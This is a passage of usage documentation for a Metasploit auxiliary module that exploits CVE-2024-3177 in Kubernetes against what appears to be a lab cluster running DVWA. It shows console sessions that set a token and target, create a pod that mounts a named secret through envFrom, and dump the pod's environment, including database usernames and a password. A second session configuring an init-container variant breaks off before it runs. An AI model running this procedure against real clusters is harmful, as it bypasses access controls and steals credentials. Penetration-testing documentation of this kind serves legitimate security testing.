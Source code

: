 ```
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > run
[*] Running module against 192.168.49.2

[*] Fetching Kubernetes server version...
[+] Kubernetes server version: v1.27.2
[+] The kube-apiserver version v1.27.2 is vulnerable to the selected CVE.
[*] Creating pod with the following spec: {"apiVersion":"v1","kind":"Pod","metadata":{"name":"cve-pod-1","namespace":"dvwa-tfm-mysql"},"spec":{"containers":[{"name":"main-container","image":"busybox","command":["/bin/sh"],"args":["-c","sleep 3600"],"envFrom":[{"secretRef":{"name":"dvwa-secrets"}}]}],"restartPolicy":"Never"}}
[*] Pod not found, creating a new one.
[+] Pod created successfully: cve-pod-1
[*] Waiting for pod cve-pod-1 to be ready...
[*] Pod cve-pod-1 status: Pending
[+] Pod cve-pod-1 is running.
[*] Established Kubernetes client.
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://10.96.0.1:443
DVWA_MYSQL_SERVICE_PORT_3306_TCP_ADDR=10.99.148.252
HOSTNAME=cve-pod-1
SHLVL=1
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PORT=3306
HOME=/root
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PROTO=tcp
DVWA_MYSQL_SERVICE_SERVICE_HOST=10.99.148.252
** SECRET ** DVWA_PASSWORD=p@ssw0rd ** SECRET **
DVWA_MYSQL_SERVICE_SERVICE_PORT=3306
DVWA_MYSQL_SERVICE_PORT=tcp://10.99.148.252:3306
** SECRET ** DVWA_USERNAME=dvwa ** SECRET **
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
** SECRET ** DVWA_DATABASE=dvwa ** SECRET **
** SECRET ** DVWA_USERNAME=dvwa ** SECRET **
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
PWD=/
[+] Successfully retrieved environment variables from pod cve-pod-1
[*] Auxiliary module execution completed

```
### Run it with init containers to exploit the CVE-2024-3177  
Explicitly setting RHOST and TOKEN to enumerate the secrets specified in the SECRET_NAME option:
```
msf6 > use cloud/kubernetes/double_secrets_cve
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set CONTAINER_TYPE init
CONTAINER_TYPE => init
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RHOSTS 192.168.49.2
RHOSTS => 192.168.49.2
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RPORT 8443
RPORT => 8443
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SECRET_NAME dvwa-secrets
SECRET_NAME => dvwa-secrets
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set NAMESPACE dvwa-tfm-mysql
```